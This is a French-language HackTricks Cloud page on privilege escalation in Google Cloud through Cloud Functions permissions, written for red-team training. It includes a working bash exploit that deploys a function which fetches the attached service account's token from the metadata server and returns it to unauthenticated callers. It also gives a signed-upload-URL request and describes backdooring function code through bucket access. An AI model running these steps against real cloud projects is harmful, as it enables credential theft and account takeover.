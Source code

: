 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Plus d'informations sur Cloud Functions :

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un attaquant avec ces privilèges peut **créer une nouvelle Cloud Function avec du code arbitraire (malveillant) et lui attribuer un compte de service**. Ensuite, il peut récupérer le jeton du compte de service à partir des métadonnées pour élever ses privilèges.\
Certains privilèges pour déclencher la fonction peuvent être requis.

Des scripts d'exploitation pour cette méthode peuvent être trouvés [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) et [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) et le fichier .zip préconstruit peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un attaquant avec ces privilèges peut **modifier le code d'une fonction et même modifier le compte de service attaché** dans le but d'exfiltrer le jeton.

{% hint style="danger" %}
Pour déployer des cloud functions, vous aurez également besoin de permissions actAs sur le compte de service par défaut ou sur le compte de service utilisé pour construire l'image.
{% endhint %}

Certains privilèges supplémentaires comme la permission `.call` pour la version 1 des cloudfunctions ou le rôle `role/run.invoker` pour déclencher la fonction peuvent être requis.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Si vous obtenez l'erreur `Permission 'run.services.setIamPolicy' denied on resource...`, c'est parce que vous utilisez le paramètre `--allow-unauthenticated` et que vous n'avez pas suffisamment de permissions pour cela.
{% endhint %}

Le script d'exploitation pour cette méthode peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Avec cette permission, vous pouvez obtenir une **URL signée pour pouvoir télécharger un fichier dans un bucket de fonction (mais le code de la fonction ne sera pas modifié, vous devez toujours le mettre à jour)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Je ne suis pas vraiment sûr de l'utilité de cette seule autorisation du point de vue d'un attaquant, mais c'est bon à savoir.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Donnez-vous l'un des précédents privilèges **`.update`** ou **`.create`** pour escalader.

### `cloudfunctions.functions.update`

Avoir uniquement des autorisations **`cloudfunctions`**, sans **`iam.serviceAccounts.actAs`**, vous **ne pourrez pas mettre à jour la fonction DONC CE N'EST PAS UN PRIVESC VALIDE.**

### Accès en lecture et écriture sur le bucket

Si vous avez un accès en lecture et écriture sur le bucket, vous pouvez surveiller les changements dans le code et chaque fois qu'une **mise à jour dans le bucket se produit, vous pouvez mettre à jour le nouveau code avec votre propre code** afin que la nouvelle version de la Cloud Function s'exécute avec le code de backdoor soumis.

Vous pouvez en savoir plus sur l'attaque dans :

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Cependant, vous ne pouvez pas utiliser cela pour pré-compromettre des Cloud Functions tierces car si vous créez le bucket dans votre compte et lui donnez des autorisations publiques afin que le projet externe puisse écrire dessus, vous obtenez l'erreur suivante :

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Cependant, cela pourrait être utilisé pour des attaques DoS.
{% endhint %}

### Accès en lecture et écriture sur l'Artifact Registry

Lorsqu'une Cloud Function est créée, une nouvelle image docker est poussée vers l'Artifact Registry du projet. J'ai essayé de modifier l'image avec une nouvelle et même de supprimer l'image actuelle (et l'image `cache`), et rien n'a changé, la Cloud Function continue de fonctionner. Par conséquent, il **pourrait être possible d'abuser d'une attaque de condition de course** comme avec le bucket pour changer le conteneur docker qui sera exécuté, mais **modifier simplement l'image stockée n'est pas possible pour compromettre la Cloud Function**.

## Références

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

